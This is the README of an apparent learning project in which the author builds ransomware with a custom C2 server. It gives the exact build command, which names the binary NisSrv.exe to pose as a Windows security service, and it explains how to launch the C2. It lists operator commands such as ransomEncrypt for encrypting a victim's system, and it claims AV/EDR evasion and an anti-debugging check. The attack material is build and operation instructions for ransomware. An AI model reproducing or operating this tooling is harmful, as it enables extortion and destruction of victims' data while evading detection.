

# 17 - Putting It All Together
This is the last project in my Learning Malware project. From knowing nothing about malware development, I've created malware that is undetectable by anti-virus and EDR solutions, created my own infrastructure and C2, and leanred many interseting anti-foresnics techniques to look out for when reverse engineering. 

This ransomware uses custom assembly to get the PEB, and check if the executable is in a debugger. If it is, it halts execution. I will leave it as an exercise to the reader to implement the self deleting code (Module 8). 

### File Structure
- C2 Server
  - c2.py -> handles C2 logic (runs as a background process)
  - cli.py -> to interface with the C2
- Ransomware
  - decrypt.cpp
  - decrypt.h
  - encrypt.cpp
  - encrypt.h
  - enumerate_files.cpp
  - enumerate_files.h
  - getPEBasm.asm
  - win_client.cpp
  - win_client.h

### Compilation
To compile the assembly:
- `ml64 /c /Fo .\getPEB.obj .\getPEBasm.asm`
To compile the ransomware:
`g++ win_client.cpp encrypt.cpp decrypt.cpp enumerate_files.cpp getPEB.obj -o NisSrv.exe -L"C:/Users/thoma/Downloads/openssl-3.3.0/" -I"C:/Users/thoma/Downloads/openssl-3.3.0/include/" -lssl -lcrypto -lws2_32 -liphlpapi -lpsapi -lnetapi32 -lbcrypt -lcrypt32  -static-libgcc -static-libstdc++ -static -lpthread -mwindows`

### Running
To setup the C2 server, simply run: `python3 c2.py`. To interface with the C2, run the cli either locally or remotely with `python3 cli.py <host> <port>`. Replace "<host>" and "<port>" with the respective host and port numbers of the listening interface on the C2.

To execute the different modules of the malware, you can run the following commands
```
    send_private_key <client_id> - Send the private key to the specified client.
    encryptFile <client_id> <filename> - encrypts a specified file using the client's public key
    decyrptFile <client_id> <filename> - decrypts a file using the host's private key
    ransomEncrypt <client_id> - encrypts system using transmitted public key
    ransomDecrypt <client_id> - decrypts specified system
    exit - Exit the CLI tool.
    help - Show this help menu.
```

### Demo


### VirusTotal
